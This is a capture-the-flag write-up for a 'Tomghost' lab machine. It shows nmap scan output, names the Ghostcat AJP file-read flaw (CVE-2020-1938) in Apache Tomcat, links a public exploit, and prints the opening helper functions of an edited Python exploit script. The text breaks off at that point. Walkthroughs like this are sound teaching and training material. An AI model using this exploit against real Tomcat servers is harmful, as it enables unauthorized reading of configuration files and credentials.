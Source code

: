 # Tomghost
Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

## Resolution
First, machine scanning
```
$ sudo nmap -sV -sC $IP -Pn -n --disable-arp-ping

<...snip...>
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 8080 running an Apache Tomcat 9 web server. Navigating there, we found the default page after setup of the server. Additionaly, ajp13 is exposed on port 8009 which, after some research about the two services, might expose a vulnerability named *Ghostcat*:
> Ghostcat is a LFI vulnerability, but somewhat restricted: only files from a certain path can be pulled. Still, this can include files like WEB-INF/web.xml which can leak important information like credentials for the Tomcat interface, depending on the server setup.

CVE of the vulnerability: CVE-2020-1938.\
A potential exploit: [from ExploitDB](https://www.exploit-db.com/exploits/48143).


I tried using the exploit directly and found some (small) issues so here is the edited version:
```Python
#!/usr/bin/env python3
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
	if s is None:
		return struct.pack(">h", -1)
	l = len(s)
	return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
	size = struct.calcsize(fmt)
	buf = stream.read(size)
	return struct.unpack(fmt, buf)
def unpack_string(stream):
	size, = unpack(stream, ">h")
	if size == -1: # null string
		return None
	res, = unpack(stream, "%ds" % size)
	stream.read(1) # \0
	return res
class NotFoundException(Exception):
	pass
```